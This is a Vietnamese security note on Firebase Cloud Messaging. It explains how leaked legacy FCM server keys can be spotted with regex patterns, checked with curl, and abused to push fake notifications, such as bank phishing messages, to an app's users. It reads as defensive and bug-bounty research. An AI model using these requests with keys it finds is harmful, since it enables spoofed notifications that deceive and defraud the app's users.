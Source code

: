 ## Overview  
Firebase cloud message là một giải pháp nhắn tin và gửi thông báo miễn phí đến các thiết bị.  
FCM Architectural Overview [Nguồn](https://firebase.google.com/docs/cloud-messaging/fcm-architecture)  
![image](https://user-images.githubusercontent.com/22276823/129903911-cbd68a19-0172-4696-a579-3da1cbc3c449.png)  

1. App server, chịu trách nhiệm tạo ra các message, notification để gửi đến FCM backend  
2. FCM backend sẽ gắn thêm các meta data, tạo ra các message ID sau đó gửi đến lớp platform transport  
3. Platform transport layer tiếp nhận data, khi device online sẽ gửi data đến device  
4. Device là một thiết bị được cài FCM SDK  

Thông tin về các loại token của firebase [link](https://firebase.google.com/docs/cloud-messaging/concept-options#credentials)  
![image](https://user-images.githubusercontent.com/22276823/129904380-0d8cfd36-d53b-4ce5-8f91-6a1a3e3fd7d6.png)  

## FCM token  
Với kiến trúc như hình trên, FCM backend sẽ do google quản lý, để app server có thể kết nối được với FCM backend, có một số cách sau.  
1. Firebase Admin SDK, hỗ trợ NodeJs, Java, Python, C#, Go  
2. FCM HTTP V1 API, dùng HTTP protocol, Firebase Admin SDK được build trên cái này)  
3. Legacy HTTP protocol. Loại cũ, bh đã hết hỗ trợ, những app cũ vẫn tiếp tục dùng được  
4. XMPP server protocol  

Để có thể gửi request lên FCM backend từ app server. Ta cần phải xác thực với FCM backend thông qua FCM token của app server gọi là `Server key`. FCM token là một chuỗi JWT token, ta có thể xem nó trong phần `Project Setting` > `Cloud Messaging`  
![image](https://user-images.githubusercontent.com/22276823/129891099-72c4968c-919e-41f8-9737-e1a1550dc0e7.png)  

Theo như blog của [abss](https://abss.me/posts/fcm-takeover/), có 3 loại `Server key`:  
1. `FCM server key` có dạng `AAAA[A-Za-z0-9_-]{7}:[A-Za-z0-9_-]{140}`  
2. `Legacy FCM server key` có dạng `AIzaSy[0-9A-Za-z_-]{33}`  
3. `GCP key` với quyền của FCM `AIzaSy[0-9A-Za-z_-]{33}`  

Loại 2, 3 hiện tại đã end of life. Chỉ những app đã tạo trước đó mới dó. Theo như bài [blog](https://abss.me/posts/fcm-takeover/) thì có một cách để verify cái `server key` có hoạt động hay không dựa theo [document](https://firebase.google.com/docs/cloud-messaging/auth-server#authorize-http-requests) trên trang chủ  
```
api_key=YOUR_SERVER_KEY

curl --header "Authorization: key=$api_key" \
     --header Content-Type:"application/json" \
     https://fcm.googleapis.com/fcm/send \
     -d "{\"registration_ids\":[\"ABC\"]}"
```  
Chi tiết hơn có thể xem trên 2 [link](https://apoorv487.medium.com/testing-fcm-push-notification-through-postman-terminal-part-1-5c2df94e6c8d) và [link](https://apoorv487.medium.com/testing-fcm-push-notification-http-v1-through-oauth-2-0-playground-postman-terminal-part-2-7d7a6a0e2fa0) này 

## Vulnerable  
Lỗ hổng ỏ đây nằm ở chỗ giao thức legacy HTTP dùng chính `Server key` để xác thực khi gửi message, noti. Nếu `Server key` bị lộ
attacker có thể gửi các thông báo fake để lừa client (tin nhắn giả mạo ngân hàng)
Để test ta có thể dùng chính payload trên trang chủ firebase  
```
api_key=YOUR_SERVER_KEY

curl --header "Authorization: key=$api_key" \
     --header Content-Type:"application/json" \
     https://fcm.googleapis.com/fcm/send \
     -d "{\"registration_ids\":[\"ABC\"]}"
```   
Nếu trả về `200 OK` với nội dung tương tư như sau thì attacker có thể tùy ý gửi noti đến client  
![image](https://user-images.githubusercontent.com/22276823/129899917-2f9909b1-1fff-4cd6-abaa-18a984fe0169.png)  
   
Theo dõi hướng dẫn tại trang chủ [link](https://firebase.google.com/docs/cloud-messaging/send-message#send-messages-using-the-legacy-app-server-protocols) hoặc [blog](https://apoorv487.medium.com/testing-fcm-push-notification-through-postman-terminal-part-1-5c2df94e6c8d) để gửi noti, message  
```
POST https://fcm.googleapis.com/fcm/send HTTP/1.1

Content-Type: application/json
Authorization: Key=AizaSy
{
  "message":{
    "topic" : "<TOPIC-NAME> or <FCM token>",
    "notification" : {
      "body" : "This is a Firebase Cloud Messaging Topic Message!",
      "title" : "FCM Message"
      }
   }
}
```  
Lưu ý:
1. Topic name có dạng `[a-zA-Z0-9-_.~%]+`  
2. `FCM token` là Registration token theo như trang chủ firebase  



